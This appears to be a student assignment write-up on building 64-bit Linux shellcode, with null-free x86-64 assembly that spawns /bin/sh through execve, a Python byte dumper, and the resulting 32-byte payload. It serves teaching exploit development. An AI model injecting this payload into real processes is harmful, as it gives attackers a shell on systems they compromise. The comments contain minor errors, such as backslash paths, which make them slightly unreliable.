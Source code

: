 # Shellcode Creation (Golf)

## Assembly Code:

```
.global _start
_start:
    xor %rsi, %rsi
    xor %rdx, %rdx
    mov $0x1168732F6E69622F, %rbx
    shl $0x08, %rbx
    shr $0x08, %rbx
    push %rbx
    mov %rsp, %rdi
    mov $0x3B, %al
    syscall

```

### Steps:

- Set args and env (represented by register `rsi` and `rdx`) to null.
- Insert the hex representation of pathname `\bin\sh` into `rbx`.
- Use `shl` and `shr` to get rid of last 8 bites (why? explanation given later in 'Removing NULLs' section).
- Push `rbx` to stack.
- Move stack pointer to `rdi` to pass the arguments (such as, pathname as `\bin\sh`) to function.
- Move `0x3b` to `al` register which represents execve(2).
- Finally, execute `syscall`.

## ASCII Represntation of Bytes:

### Code

```
infile_path = "/home/csnmsu/Downloads/ShellCode Assignment/shellcode"
output = ""
size = 0

with open(infile_path, "rb") as f:
    while (byte := f.read(1)):
        byte = byte.hex()
    	output += str(byte) + " "
    	size+=1

print("Shellcode is " + str(size) + " bytes long.")
print("They are: " + output)

```

### Output

```
Shellcode is 32 bytes long.
They are: 48 31 f6 48 31 d2 48 bb 2f 62 69 6e 2f 73 68 11 48 c1 e3 08 48 c1 eb 08 53 48 89 e7 b0 3b 0f 05
```

## Removing NULLs

- Use `al` register for storing 0x3b to avoid extra null bytes caused by a bigger register.
- While inserting null terminator for `\bin\sh`, put any other value (except null or 00) and then do shift-left and shift-right by `0x08`. This operation gives us our desired null terminator without injecting null value to the shellcode. [1]
- `xor` sometimes may cause null values, but this time looks like we are safe. Alternatively, we can use `sub %rsi, %rsi` to set `rsi` to null.  

[1] https://null-byte.wonderhowto.com/how-to/writing-64-bit-shellcode-part-2-removing-null-bytes-0161591/


